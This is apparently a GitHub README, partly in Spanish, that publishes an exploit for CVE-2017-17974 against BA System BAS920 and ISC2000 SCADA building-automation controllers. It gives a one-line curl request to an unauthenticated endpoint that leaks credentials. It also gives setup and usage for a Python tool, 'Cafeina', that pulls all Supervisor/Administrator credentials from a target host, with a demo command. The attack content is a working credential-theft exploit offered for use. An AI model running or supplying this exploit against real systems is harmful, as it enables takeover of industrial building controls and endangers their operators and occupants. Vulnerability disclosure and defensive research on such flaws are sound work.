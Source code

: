 #  Exploit; SCADAS "BAS920 & ISC2000"; Credentials Exposed
## [BA System] “Improper Access Control (Authorization)”

	[*] Exploit Title:       "SCADAS "BAS920 & ISC2000"; Credentials Exposed” 
	[*] CVE:                 CVE-2017-17974
	[*] Date:                29/12/2017
	[*] Exploit Author:      Fernandez Ezequiel ( @capitan_alfa ) && Bertin Jose ( @bertinjoseb )
	[*] Vendor:              BA System
	[*] devices(tested):     BAS920 & ISC2000

Atacando SCADAS de la firma “BA SYSTEM”: 

![BAS920](screenshot/baIexplorer.png)

Accedemos a la plataforma y como era de esperar nos recibe un "login form"

![BAS920_2](screenshot/get_passwd.png)

### Exploit:

```
	curl http://<host>/isc/get_sid_js.aspx
```

### POCs:
![BAS920_3](screenshot/POC_1.png)

![BAS920_4](screenshot/POC_2.png)

### Adentro:
![BAS920_5](screenshot/INDOOR.png)

![BAS920_6](screenshot/INDOOR_2.png)


***

# TOOL: "Cafeina" 

## Quick start

	usr@pwn:~$ git clone https://github.com/ezelf/baCK_system.git
	usr@pwn:~$ cd baCK_system

## help
	
	usr@pwn:~/$ python cafeina.py --help

	python cafeina.py --help
	usage: cafeina.py [-h] [-v] --host HOST [--port PORT]

	[+] Obtaining all credentials for the Supervisor/Administrator account

	optional arguments:
	  -h, --help     show this help message and exit
	  -v, --version  show program's version number and exit
	  --host HOST    Host
	  --port PORT    Port

	[+] Demo: python cafeina.py --host 192.168.1.101 -p 81

***

## Usage:

![BAS920_7](screenshot/tool_passwd.png)

#### Las update !!!
![BAS920_8](screenshot/poc_tool_1.png)

